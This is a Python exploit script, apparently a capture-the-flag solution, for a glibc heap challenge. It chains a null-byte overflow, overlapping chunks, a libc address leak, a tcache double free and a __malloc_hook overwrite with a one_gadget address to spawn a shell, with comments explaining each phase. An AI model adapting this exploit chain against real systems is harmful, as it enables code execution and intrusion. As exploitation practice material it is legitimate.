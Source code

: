 ```python
_new(0x5f0, 'C' * 0x5ef)
_new(0x20, 'd' * 0x20)

# Phase 1

# Put chunk B to TCache, chunk A to unsorted bin
_del(1)
_del(0)

# When the programm frees a chunk, it will write junk byte to write the chunk
# Here, we use null byte overflow to clean the junk data bit by bit and
# overflow the chunk C
for i in range(0, 8):
    _new(0x68 - i, 'b' * (0x68 - i))
    _del(0)

# Overwrite the pre_size to 0x680, which will lead to the merge of chunk A and C
# And chunk B is overlapped inside two chunks
_new(0x68, 'B' * 0x60 + p64(0x680))
_del(2)

# Phase 2

# The new applied chunk is bigger than A, so the malloc won't use it
# So, the fake chunk(mereged by A and C) can split partial of it
# The libc address will be write to the remaining of fake chunk
# While the offset exactly points to chunk B
# We can show chunk B to leak libc address.
_new(0x608, 'E' * 0x607)
_show(0)

# Use offset to calculate base address and malloc_hookl
libc_addr = p.recvuntil('\n$$')[:-3]
libc_addr = u64(libc_addr + '\x00' * (8 - len(libc_addr))) - 0x3ebca0
malloc_hook = libc_addr + 0x3ebc30

# Since the offset directly points to chunk B, if we malloc 0x68
# the unsorted bin will split again and new chunk F exactly chunk B
# Thus, if we free chunk F and chunk B, we can have a double free
_new(0x68, 'F' * 0x67)
_del(0)
_del(2)

# Overwrite mallok_hook
_new(0x68, p64(malloc_hook))
_new(0x68, 'G' * 0x67)
_new(0x68, p64(libc_addr + 0x4f322))

# Trigger malloc_hook
p.sendlineafter('Your choice: ', '1')
p.sendlineafter('Size:', '1')
p.interactive()
```
